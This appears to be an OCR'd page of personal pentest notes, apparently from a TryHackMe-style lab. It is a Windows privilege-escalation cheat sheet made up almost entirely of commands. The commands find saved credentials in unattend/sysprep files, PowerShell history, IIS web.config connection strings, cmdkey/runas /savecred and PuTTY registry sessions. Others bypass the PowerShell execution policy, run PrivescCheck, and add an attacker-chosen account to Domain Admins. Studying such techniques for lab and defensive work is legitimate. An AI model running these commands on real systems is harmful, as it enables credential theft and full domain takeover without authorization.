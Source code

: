 # Saved Credentials

Unattend Locations
```
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml


<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

Powershell history
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

IIS Configuration
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

Saved windows credentials
```
cmdkey /list

runas /savecred /user:<user> cmd.exe
```

Putty
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

# 
```
powershell -ep bypass .\script.ps1
```

```
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML
```

Add a new domain administrator
```
$PASSWORD= ConvertTo-SecureString –AsPlainText -Force -String <PASSWORD>
New-ADUser -Name "<USERNAME>" -Description "<DESCRIPTION>" -Enabled $true -AccountPassword $PASSWORD
Add-ADGroupMember -Identity "Domain Admins" -Member <USERNAME>
```
